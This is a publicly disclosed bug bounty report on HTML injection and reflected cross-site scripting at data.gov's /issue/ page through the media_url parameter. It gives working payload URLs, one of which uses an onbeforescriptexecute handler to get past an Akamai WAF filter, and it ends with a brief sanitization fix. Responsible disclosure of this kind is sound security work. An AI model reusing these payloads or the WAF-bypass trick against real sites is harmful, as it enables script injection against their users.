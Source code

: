 # HTML injection (with XSS possible) on the https://www.data.gov/issue/ using media_url attribute

## Report Details
- **Report ID**: 263226
- **URL**: https://hackerone.com/reports/263226
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-25T13:33:29.074Z
- **Disclosed**: 2017-09-15T13:38:30.757Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
##Description
Hello. I discovered Cross-Site scripting issue on the https://www.data.gov/issue/ endpoint.

##Akamai WAF and bypass
At the srart i was not able to do the XSS due to Akamai Waf XSS filters, but later, i was able to bypass it.

##POC (HTML injection)
https://www.data.gov/issue/?media_url=catalog.data.gov/dataset/consumer-complaint-database%22%3E%3Csvg%20height=%22100%22%20width=%22100%22%3E%20%3Ccircle%20cx=%2250%22%20cy=%2250%22%20r=%2240%22%20stroke=%22black%22%20stroke-width=%223%22%20fill=%22red%22%20/%3E%20%3C/svg%3E
{F215755}

##POC (Reflected XSS)
Use this link in the Mozilla Firefox
https://www.data.gov/issue/?media_url=catalog.data.gov/dataset/consumer-complaint-database%22%3E%3C/div%3E%3C/div%3E%3Cbrute%20onbeforescriptexecute=%27confirm(document.domain)%27%3E
{F215768}

##Suggested fix
Sanitize all input fields on this page. 

## Attachments
- c.PNG
- cx.PNG
